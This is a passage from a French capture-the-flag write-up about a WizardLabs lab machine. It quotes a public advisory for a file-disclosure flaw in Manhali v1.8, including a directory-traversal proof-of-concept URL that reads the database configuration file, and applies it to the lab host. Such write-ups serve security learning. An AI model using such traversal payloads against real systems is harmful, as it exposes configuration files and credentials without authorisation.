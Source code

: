 D'autant plus intéressant que l'on trouve via *searchsploit* une vulnérabilité pour ce logiciel :  

```plain
############################################
### Exploit Title: Manhali v1.8 Local File Inclusion Vulnerability
### Date: 20/09/2012
### Author: L0n3ly-H34rT
### Contact: l0n3ly_h34rt@hotmail.com
### My Site: http://se3c.blogspot.com/
### Vendor Link: http://www.manhali.com/
### Software Link: http://sourceforge.net/projects/manhali/files/manhali_1.8.zip/download
### Version : 1.8 ( may be old version is affect! i don't check )
### Tested on: Linux/Windows
############################################

# P.O.C :

http://127.0.0.1/manhali/includes/download.php?f=../includes/dbconfig.php

############################################

# Greetz to my friendz
```

On peut alors obtenir la configuration de logiciel via l'adresse *http://10.1.1.52:20000/platform/includes/download.php?f=../includes/dbconfig.php*.  

Cette dernière n'a rien d'intéressant puisque l'utilisateur root peut se connecter à MySQL sans mot de passe et qu'ici ce service est inaccessible :(   

Au passage l'exploit parlait d'une faille d'inclusion locale, il n'en est rien puisque le code PHP n'est pas interprété. C'est pourtant pas compliqué de lire un put\*\*\* de message d'erreur :  

![WizardLabs CTF Katana Manhali directory traversal](https://github.com/devl00p/blog/raw/master/images/wizard-labs/katana/katana_file_disclosure.png)
